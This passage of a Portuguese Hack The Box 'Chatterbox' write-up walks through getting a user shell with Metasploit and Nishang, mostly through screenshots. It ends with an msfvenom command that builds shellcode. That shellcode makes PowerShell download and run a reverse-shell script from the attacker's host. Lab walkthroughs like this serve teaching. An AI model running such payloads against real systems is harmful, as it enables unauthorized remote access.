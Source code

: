 ![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-chatterbox/C-sh.png)

Jogamos pra dentro do exploit

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-chatterbox/C_sh1.png)

Ligamos o handler

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-chatterbox/C_sh2.png)

Executamos e gahamos a shell

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-chatterbox/C_sh3.png)

Ai está... po mas agora fiquei puto, vamos tentar migrar pra meterpreter com o `post/multi/manage/shell_to_meterpreter`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-chatterbox/C_sh4.png)

Ai está, shell de meterpreter, mas agora pq não deu antes não faço a mínima ideia

# Shell de User - 3º Modo (Mais simples - Powershell)

Bom, podemos gerar um payload de powershell direto do msfvenom, não? Sim, podemos contudo o tamanho dele extrapola o máximo que o payload suporta

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-chatterbox/C_p.png)

Blz, sem problemas, vamos fazer ele executar um comando que busque na minha máquina o ps1 para ser executado

Para isso vamos utilizar o Nishang (https://github.com/samratashok/nishang)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-chatterbox/C_p1.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-chatterbox/C_p2.png)

Passamos ele para nossa pasta de trabalho

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-chatterbox/C_3.png)

Adicionamos ao final a chamada da função e colocamos nosso IP

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-chatterbox/C_p4.png)

Agora iremos fazer o Payload para ser adicionado ao exploit

Criamos o payload pra ele executar um comando de powershell, vir na minha máquina e baixar o nishang

```
msfvenom -a x86 --platform Windows -p windows/exec CMD="powershell \"IEX(New-Object Net.WebClient).downloadString('http://10.10.16.117/Invoke-PowerShellTcp.ps1')\"" -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python
```
